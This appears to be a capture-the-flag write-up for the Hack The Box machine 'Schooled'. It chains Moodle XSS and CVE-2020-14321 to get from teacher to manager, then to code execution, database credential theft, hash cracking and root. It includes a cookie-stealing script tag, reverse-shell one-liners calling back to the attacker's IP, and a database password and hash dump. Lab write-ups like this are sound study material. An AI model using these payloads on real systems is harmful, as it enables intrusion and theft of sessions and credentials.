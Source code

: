 ### Enum after registered
* http://moodle.schooled.htb/moodle/package.json
* http://moodle.schooled.htb/moodle/theme/upgrade.txt

### moodle CVE 2020 Googled
* https://security.snyk.io/vuln/SNYK-PHP-MOODLEMOODLE-1049535
* https://moodle.org/mod/forum/discuss.php?d=410839#p1657001

### moddle CVE 2021
* https://moodle.org/mod/forum/discuss.php?d=407393#p1644268
* https://github.com/HoangKien1020/CVE-2020-14321
* https://vimeo.com/441698193

MSA-20-0009: Course enrolments allowed privilege escalation from teacher role into manager role.

### XSS 1 CVE 2020 to get the web foothold as Teacher
```js
<script>document.location="http://10.10.14.178/?"+document.cookie</script>
```

Let's start a Python HTTP server `python3 -m http.server 80`, and submit that as the `MoodleNet profile`. Almost instantly I get a hit back form my own IP trying to fetch the script.

Less than a minute later, there’s another hit, from Schooled. With that, I’m logged in as Manuel Phillips.

Doggy thing here is that automation implemented with the course. So might have to enroll the Math to get the cookie done.

### XSS 2 CVE 2021 to lateral movement to gain as Manager which have access to the `Site administration` panel
Another vulnerability affecting Moodle 3.9 (CVE-2020-14321) allows escalation of privileges from the teacher role to the manager role. A PoC exploit for this vulnerability is available on GitHub. A video walkthrough is also available. First we need to grab the `ID` of the current user (Manuel Phillips). One way to do this is looking at the URL of the profile page linked from the top right menu (`/moodle/user/profile.php?id=24`).
Next, we click the `Site home` link on the left and then select the `Mathematics course`. We access the participant list.

According to the PoC exploit, we need to enroll a user with manager role into our course. The `/teachers.html` page on the main website (`schooled.htb`) lists Lianne Carter as a Manager, making it a potential target:

```bash 
❯ curl -s http://schooled.htb/teachers.html | grep -i 'manager' -C 1

<h3 class="title">Lianne Carter</h3>
<span class="post">Manager & English Lecturer</span>
```

`Participants` then click the `Enrol users` button and select Lianne Carter from the list

##### Modify and resent
```txt original 
http://moodle.schooled.htb/moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=IiA477Lhm0&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist[]=25&roletoassign=5&startdate=4&duration=
```

We modify it by setting the `userlist` parameter to our ID ( 24 ) and the `roletoassign` parameter to 1.

Looking at the user list again, Manuel Phillips is now shown as a Manager. Let's `Log in as` http://moodle.schooled.htb/moodle/user/view.php?id=25&course=5

We could see it's the `&course=5` causing the issue here.

### Third vuln, CVE-2020-14321
* https://github.com/HoangKien1020/CVE-2020-14321#payload-to-full-permissions

In order to enable plugin install, we follow the PoC for the CVE. From `Site administration` we select `Users`, then `Define roles`, `Manager` and `Edit`.

Intercept and Modify `POST http://moodle.schooled.htb/moodle/admin/roles/define.php?action=edit&roleid=1`

We can now execute arbitrary system commands from the `block_rce.php` page

```bash
❯ curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php\?cmd\=id
uid=80(www) gid=80(www) groups=80(www)
```

### Foothold
nc mkfifo with url encode
```
curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.16.5%2080%20%3E%2Ftmp%2Ff
```
weird since the mkfifo didn't work after the shell called back. It just blank there.

```
curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.5/443 0>&1'" http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php
```

### Enum
For people used to Linux, it’s worth noting that the web root isn’t `/var/www/html` as is typically seen there, but rather `/usr/local/www/apache24/data`.

```bash
[www@Schooled /home]$ find / -name python3 2>/dev/null
/usr/local/bin/python3
/usr/local/share/bash-completion/completions/python3
[www@Schooled /home]$ /usr/local/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

After some enumeration we spot that the `/usr/local/www/apache24/data/moodle/config.php` file contains database credentials:
```php 
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');
```

```bash
find / -name mysql 2>/dev/null

/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 moodle
```

```bash mysql
moodle@localhost [moodle]> show tables;
moodle@localhost [moodle]> desc mdl_user;
moodle@localhost [moodle]> select username,password from mdl_user;

select username,password from mdl_user;
+-------------------+--------------------------------------------------------------+
| username          | password                                                     |
+-------------------+--------------------------------------------------------------+
| guest             | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
| admin             | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
```

The admin username has an email address for jamie@staff.schooled.htb. I’ll use some command line foo to get them into hashcat format:
```bash mysql 
moodle@localhost [moodle]> select email from mdl_user where username='admin';
select email from mdl_user where username='admin';
+--------------------------+
| email                    |
+--------------------------+
| jamie@staff.schooled.htb |
+--------------------------+
```

rockyou the credentials `jamie:!QAZ2wsx`.

### Root
```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
    ```

Offical PDF is pretty good here. Only one thing might worth to mention is that the wild character `*` need an `\` to escape.

* https://0xdf.gitlab.io/2021/09/11/htb-schooled.html#shell-as-root